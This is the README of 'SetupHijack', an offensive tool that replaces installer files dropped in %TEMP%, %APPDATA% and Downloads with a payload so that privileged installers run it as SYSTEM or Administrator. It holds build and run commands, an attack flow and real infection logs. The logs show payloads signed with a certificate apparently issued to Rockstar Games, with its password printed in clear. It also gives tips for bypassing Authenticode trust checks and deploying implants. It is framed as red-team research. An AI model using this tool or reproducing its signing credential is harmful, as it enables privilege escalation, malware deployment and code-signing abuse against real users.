 # SetupHijack

---

## Overview

**SetupHijack** is a security research tool that exploits race conditions and insecure file handling in Windows installer and update processes. It targets scenarios where privileged installers or updaters drop files in `%TEMP%` or other world-writable locations, allowing an attacker to replace these files before they are executed with elevated privileges.

- Does **not** require elevated permissions to run.
- Does **not** use file system notifications (polls for changes instead).
- Exploits weaknesses in Authenticode code signing and installer trust models.
- Can infect `.exe`, `.msi`, and batch files (e.g., `sysinfo`, `netstat`, `ipconfig`).
- Designed for red team, penetration testing, and security research use only.

The intended use of this tool is to run in the background on a compromised user account with privileges, in order to elevate another process by hijacking installer/updater file drops.

## How It Works

1. **SetupHijack** continuously scans `%TEMP%` (and subdirectories) for new or modified installer files.
2. When a target file is detected, it is replaced with a user-supplied payload (EXE, MSI, or BAT), optionally preserving the original as a `.bak` file.
3. If the privileged process executes the replaced file before integrity checks, the payload runs with elevated rights (e.g., SYSTEM or Administrator).
4. The tool logs all actions and maintains a skiplist to avoid re-infecting the same files.

## Code Signing Note

This project uses a hacked code-signing process with [SignToolEx.exe and SignToolExHook.dll](https://github.com/hackerhouse-opensource/SignToolEx) to sign payloads and installers. Using valid code-signing certificates and an Authenticode timestamp will increase your success rate when bypassing installer and OS trust checks.

---

## Usage

### Build

```sh
nmake PAYLOAD=c:\Path\to\your\payload.exe
```

### Run (Options)

```sh
SetupHijack.exe                  # Scan %%TEMP%%, %%APPDATA%%, and %%USERPROFILE%%\Downloads (default)
SetupHijack.exe -notemp          # Disable scanning %%TEMP%%
SetupHijack.exe -noappdata       # Disable scanning %%APPDATA%%
SetupHijack.exe -nodownloads     # Disable scanning %%USERPROFILE%%\Downloads
SetupHijack.exe clean            # Clean mode (restores .bak backups in all enabled locations)
SetupHijack.exe verbose          # Verbose mode (log all actions)
SetupHijack.exe <payload.exe>    # Use specified payload for .exe (unless argument is a recognized option)
```

- Run **SetupHijack.exe** before or during a privileged install/update process.
- By default, the tool scans all common drop locations: %%TEMP%%, %%APPDATA%%, and %%USERPROFILE%%\Downloads.
- You can disable any location with the `-notemp`, `-noappdata`, or `-nodownloads` flags.
- The `clean` flag restores backups in all enabled locations. The `verbose` flag logs all actions.
- For remote escalation, use with `shadow.exe` or similar tools on Terminal Services.

## Example Attack Flow

1. Build your payload and SetupHijack:
   ```sh
   nmake PAYLOAD=c:\Users\YourUser\Desktop\payload.exe
   ```
2. Start SetupHijack:
   ```sh
   SetupHijack.exe
   ```
3. Launch the target installer or update process as Administrator.
4. If the installer drops files in `%TEMP%` and executes them with elevated rights, your payload will be substituted and run.

## Example Output

Below is a real example of building and running SetupHijack, including code signing and infection output:

```
C:\Users\Fantastic\Desktop\Sayuri\InfectElevatedSetups>nmake PAYLOAD="C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe"

Microsoft (R) Program Maintenance Utility Version 14.29.30159.0
Copyright (C) Microsoft Corporation.  All rights reserved.

        powershell -Command "(Get-Content SetupHijack.cpp) -replace '#define PAYLOAD_PATH L\".*\"', '#define PAYLOAD_PATH L\"%ESCAPED_PAYLOAD%\"' | Set-Content SetupHijack.cpp"
        cl /nologo /W4 /EHsc /DUNICODE /D_UNICODE /MT /O2 /c SetupHijack.cpp
SetupHijack.cpp
SetupHijack.cpp(318): warning C4189: 'hr2': local variable is initialized but not referenced
        taskkill /f /im SetupHijack.exe 2>nul
        powershell -Command "Start-Sleep -Milliseconds 500"
        link /nologo /SUBSYSTEM:CONSOLE /ENTRY:wmainCRTStartup /NODEFAULTLIB:MSVCRT /NODEFAULTLIB:MSVCPRT /OUT:SetupHijack.exe SetupHijack.obj kernel32.lib user32.lib shlwapi.lib Shell32.lib /MANIFEST /MANIFESTFILE:SetupHijack.exe.manifest
        copy /y install.wxs.template install.wxs
        1 file(s) copied.
        powershell -Command "(Get-Content install.wxs) -replace 'Source=\"PAYLOAD_PLACEHOLDER\"', 'Source=\"%ESCAPED_PAYLOAD%\"' | Set-Content install.wxs"
        wix build install.wxs -o install.msi
Generating install.bat with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
Generating launch_payload.bat with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
        powershell -Command "(Get-Content install.wxs) -replace '(<File Id=\"RengeExeFile\" Source=\").*?(\" KeyPath=\"yes\"/>)', '`%ESCAPED_PAYLOAD%`' | Set-Content install.wxs"
        call sign_random.bat
Using CERT: [certs\rockstar1.pfx]
Using PASS: [C!EZxYUxVGPzQDj3]
The following certificate was selected:
    Issued to: Rockstar Games, Inc.
    Issued by: Entrust Code Signing CA - OVCS1
    Expires:   Thu Mar 20 17:16:13 3000
    SHA1 hash: C9793F4A2E629D88F2213622D7A0C170D9C7CBC6

Done Adding Additional Store
Successfully signed: SetupHijack.exe

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0
The following certificate was selected:
    Issued to: Rockstar Games, Inc.
    Issued by: Entrust Code Signing CA - OVCS1
    Expires:   Thu Mar 20 17:16:13 3000
    SHA1 hash: C9793F4A2E629D88F2213622D7A0C170D9C7CBC6

Done Adding Additional Store
Successfully signed: install.msi

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0

C:\Users\Fantastic\Desktop\Sayuri\InfectElevatedSetups>SetupHijack.exe
[2025-09-24 15:20:46] [SetupHijack] Using payload: C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 15:20:46] [SetupHijack] If infecting .msi, will use: install.msi
[2025-09-24 15:20:46] [SetupHijack] Polling enabled locations recursively for .exe, .msi, .bat:
[2025-09-24 15:20:46]   - C:\Users\FANTAS~1\AppData\Local\Temp
[2025-09-24 15:20:46]   - C:\Users\Fantastic\AppData\Roaming
[2025-09-24 15:20:46]   - C:\Users\Fantastic\Downloads
[2025-09-24 15:20:46] [SetupHijack] Entering infection loop.
[2025-09-24 15:20:59] [SetupHijack] Total infections this session: 0
[2025-09-24 15:21:13] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\installcmd.bat with payload install.bat, backup: C:\Users\FANTAS~1\AppData\Local\Temp\installcmd.bat.bak
[2025-09-24 15:21:13] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:22] [SetupHijack] Replaced C:\Users\Fantastic\Downloads\installcmd.msi with payload install.msi, backup: C:\Users\Fantastic\Downloads\installcmd.msi.bak
[2025-09-24 15:21:26] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:26] [SetupHijack] Total infections this session: 2
[2025-09-24 15:21:41] [SetupHijack] Replaced C:\Users\Fantastic\AppData\Roaming\InsecureApp\setup.exe with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\Fantastic\AppData\Roaming\InsecureApp\setup.exe.bak
[2025-09-24 15:21:41] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:53] [SetupHijack] Total infections this session: 3
```

## Example Use to Deploy An Implant

Below is a screenshot showing SetupHijack in action, deploying an implant during a privileged installer run:

![Example Use to Deploy An Implant](Example.png)

## Security Notes

- This tool is for authorized testing and research only.
- Exploiting these weaknesses can result in full SYSTEM compromise when user in Administrator group.
- Installers may use hash/signature checks that will block this attack, but many still do not.
- Always use in a controlled environment.
- If you discover a CVE or get bounty with this tool, credit us!

Targeting a single directory (such as `%TEMP%`) at a time can increase the likelihood of winning any time-of-creation/time-of-use (TOCTOU) race condition, as it allows for faster polling and less contention. For maximum reliability, run multiple instances of SetupHijack, each focused on a single directory. For optimum results, ensure your payload (the EXE you want to run elevated) includes a manifest requesting elevation (requireAdministrator), and is signed with a valid code-signing certificate that includes an Authenticode timestamp. This increases the chance of bypassing installer and OS trust checks on installers.

---

These files are available under an Attribution-NonCommercial-NoDerivatives 4.0 International license.
